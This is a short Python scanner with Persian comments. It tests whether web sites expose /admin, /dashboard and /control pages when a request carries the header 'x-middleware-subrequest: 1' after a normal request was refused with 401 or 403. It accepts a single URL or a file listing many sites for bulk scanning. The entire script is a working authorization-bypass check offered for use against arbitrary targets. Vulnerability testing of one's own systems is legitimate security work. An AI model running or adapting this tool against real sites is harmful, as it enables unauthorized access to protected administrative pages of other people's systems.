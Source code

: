# Scanner.py
#!/usr/bin/env python3
import requests
import sys

def check_vulnerability(url):
    try:
        headers = {"x-middleware-subrequest": "1", "User-Agent": "Mozilla/5.0"}
        
        # تست مسیرهای حساس
        sensitive_paths = ["/admin", "/dashboard", "/control"]
        
        for path in sensitive_paths:
            target_url = url.rstrip('/') + path
            
            try:
                # درخواست عادی (بدون هدر ویژه)
                normal_res = requests.head(target_url, timeout=5, allow_redirects=False)
                
                # اگر دسترسی ممنوع بود، با هدر ویژه تست می‌کنیم
                if normal_res.status_code in [401, 403]:
                    vuln_res = requests.head(target_url, headers=headers, timeout=5, allow_redirects=False)
                    
                    if vuln_res.status_code == 200:
                        return True, f"نشت دسترسی! مسیر {target_url} با هدر ویژه قابل دسترسی است."
            
            except requests.exceptions.RequestException:
                continue
                
        return False, "آسیب‌پذیری تأیید نشد"
    
    except Exception as e:
        return False, f"خطا: {str(e)}"

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("طریقه استفاده: python3 scanner.py <آدرس سایت یا فایل txt>")
        sys.exit(1)
    
    target = sys.argv[1]
    
    if target.startswith(('http://', 'https://')):
        # تست تک سایت
        result, message = check_vulnerability(target)
        print(f"\nنتایج برای {target}:")
        print("=" * 50)
        print(f"وضعیت: {message}")
    else:
        # پردازش فایل حاوی لیست URLها
        try:
            with open(target, 'r') as f:
                print("\nشروع اسکن...")
                print("=" * 50)
                for line in f:
                    url = line.strip()
                    if url:
                        result, message = check_vulnerability(url)
                        if result:
                            print(f"[!] آسیب‌پذیر: {url}")
                            print(f"   → جزئیات: {message}\n")
                        else:
                            print(f"[✓] ایمن: {url}")
        except FileNotFoundError:
            print("خطا: فایل مورد نظر یافت نشد!")
